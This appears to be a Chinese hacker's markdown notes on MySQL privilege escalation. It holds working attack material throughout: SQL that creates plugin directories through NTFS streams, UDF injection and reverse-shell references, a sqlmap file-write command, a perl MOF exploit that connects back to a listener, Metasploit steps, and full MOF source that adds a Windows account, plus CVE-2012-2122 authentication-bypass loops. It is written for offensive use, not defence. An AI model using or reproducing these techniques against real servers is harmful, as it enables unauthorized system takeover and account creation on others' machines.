


### 前言

事出有因，发现mysql的提权还不是很熟。需要研究一下。
另外，作为一个黑客。对于一个什么东西一定要熟。你把它研究透了，从内到外都滚瓜烂熟了，才有可能在遇到需要他的时候成功利用。
你永远不知道下一秒会发生什么。很有可能下一秒机会就出现，而那些真正厉害的黑客一定是早早就把可能用到的东西研究透了，早就烂熟于心。这样才能在那些稍纵即逝的机会面前抓住他。
不只是第一步，思路一定要清晰。在踏出第一步之前就已经对于每一步可能发生的情况都非常清楚，知道要向什么方向走。

#### UDF

##### 创建文件夹

因为默认是没有这个文件夹的：C:/Users/username/Documents/phpstudy/MySQL/lib/plugin

```
select @@basedir;   
//查找到mysql的目录
select 'It is dll' into dumpfile 'C:\\Users\\username\\Documents\\phpstudyMySQL\\lib::$INDEX_ALLOCATION';   
//利用NTFS ADS创建lib目录
select 'It is dll' into dumpfile 'C:\\Users\\username\\Documents\\phpstudyMySQL\\lib\\plugin::$INDEX_ALLOCATION';
//利用NTFS ADS创建plugin目录
```

##### udf注入

[linux_udf_64.so](./linux_udf_64.txt)这个不知道函数名是啥。。

[linux_udf常用命令](./mysql-udf命令.txt)

##### udf马

[udf.php](./udf.php)

##### udf反弹shell

[mysqlShellExp.txt](./mysqlShellExp.txt)这个udf.dll文件有点大，可能有后门。。。

运行创建函数的时候会提示没有这个函数，但实际上是成功的。


##### mysql自动化上传

python sqlmap.py -u 'xxxx' --file-write=/lib_mysqludf_sys.so  --file-dest=/usr/lib/mysql/plugin/

### mof提权

要winServer2003以下才能用。。

[国外大神0day工具](https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/23083.zip)

**用法：**

```bash
perl mysql_win_remote.pl 10.211.55.3 root root 10.211.55.4 9999
                        mysql服务器地址 账号 密码 反弹shell地址 端口
```

perl需要安装 DBD::mysql DBD 模块。mac10.15.5 安装失败。。

##### MSF

win7的用msf模块打了，不成功。

```bash
use exploit/windows/mysql/mysql_mof
set password root
set username
set rhost
set rport
set lhost
exploit
```

据说windows2003可以，回头试一下。

##### 手动

nullevt.mof文件源码

```
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user test$ cKediTor /add\")";
};
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```

系统每五秒创建一个账户`ghtwf011`，里面命令可以自定义
使用sql语句将文件导入到`c:/windows/system32/wbem/mof/`下

```
select load_file("C:/phpstudy/WWW/nullevt.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof"
```

利用的是windows系统的一个机制，以管理员权限每5分钟执行一次。万一成功了想要删掉需要：

```
net stop winmgmt
net user ghtwf011 /delete
切换到 c:/windows/system32/wbem 目录
del repository
net start winmgmt
```

#### hackmysql综合利用工具

[https://github.com/T3st0r-Git/HackMySQL](https://github.com/T3st0r-Git/HackMySQL)

集成了**全自动udf一键执行命令**(里面有几个自带的dll，不知道有没有后门)


**写启动项**

**LPK.dll劫持系统目录提权**

这个试了也提示成功但实际上是没有这个账户的。。





#### 允许远程连接

更改 "mysql" 数据库里的 user 表里的 host 项，将 localhost 改为 %

#### CVE-2012-2122 Mysql身份认证漏洞

不断尝试登陆，平均256次就能成功一次。无需密码。

```python
#!/usr/bin/python
import subprocess

while 1:
        subprocess.Popen("mysql -u root -p -h 192.168.0.16 --password=test", shell=True).wait()
```

```bash
for i in `seq 1 1000`; do mysql -u root -p -h 192.168.0.16 --password=bad 2>/dev/null; done
```

